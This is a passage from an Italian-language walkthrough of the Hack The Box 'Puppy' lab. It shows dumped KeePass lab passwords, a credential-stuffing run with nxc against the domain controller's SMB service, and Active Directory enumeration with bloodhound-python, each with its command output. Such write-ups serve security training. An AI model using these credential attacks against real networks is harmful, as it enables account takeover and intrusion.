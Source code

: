 ```bash
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Title: ANTONY C. EDWARDS
[>] Username: None
[>] Password: Antman2025!
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Title: STEVE TUCKER
[>] Username: None
[>] Password: Steve2025!
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Title: SAMUEL BLAKE
[>] Username: None
[>] Password: ILY2025!
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Entry dump complete.
[*] Stopping bruteforce process.
[*] Done.

```

## Credential Stuffing

Si combinano le password ricavate da **recovery.kdbx** e gli utenti presenti in **AD** per un **credential stuffing**.

```bash

$ nxc smb DC.PUPPY.HTB -u user.txt -p pass.txt                                                 
SMB         10.x.x.x  445    DC               [+] PUPPY.HTB\ant.edwards:Antman2025!

```

Si ottengono delle credenziali valide.

- **ant.edwards:Antman2025!**

## Information Gathering as Ant

Si raccolgono informazioni su **AD** con **bloodhound-python**.

```bash

$ bloodhound-python -d PUPPY.HTB -c all -ns 10.x.x.x -u 'ant.edwards' -p 'Antman2025!' --zip
 
```
